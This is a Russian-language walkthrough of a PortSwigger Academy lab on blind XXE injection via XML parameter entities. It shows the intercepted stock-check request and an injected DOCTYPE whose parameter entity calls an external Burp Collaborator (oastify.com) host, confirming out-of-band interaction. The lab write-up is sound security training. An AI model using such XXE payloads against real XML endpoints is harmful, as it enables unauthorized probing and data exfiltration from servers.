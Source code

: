 зайдем на случайный товар на уязвимом ресурсе и с помощью `Check stock` найдем количество товара
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/4.%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/pics%20for%20walktrough/1.png)
Перейдем в Proxy -> HTTP history и найдем тот самый запрос 
```
POST /product/stock
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/4.%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/pics%20for%20walktrough/2.png)
Внедрим XML-инъекцию как в прошлой лабораторной работе, и увидим неудачу
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/4.%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/pics%20for%20walktrough/3.png)
Внедрим XML-инъекцию
```
POST /product/stock
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://ob39m91xz9khb2xpgubnbxxjsay1mtai.oastify.com"> %xxe; ]>

```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/4.%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/pics%20for%20walktrough/4.png)
хоть и выдало 400 респонс статус код, но отсутук на бурпколлаборатор все равно случился
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/4.%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/pics%20for%20walktrough/5.png)
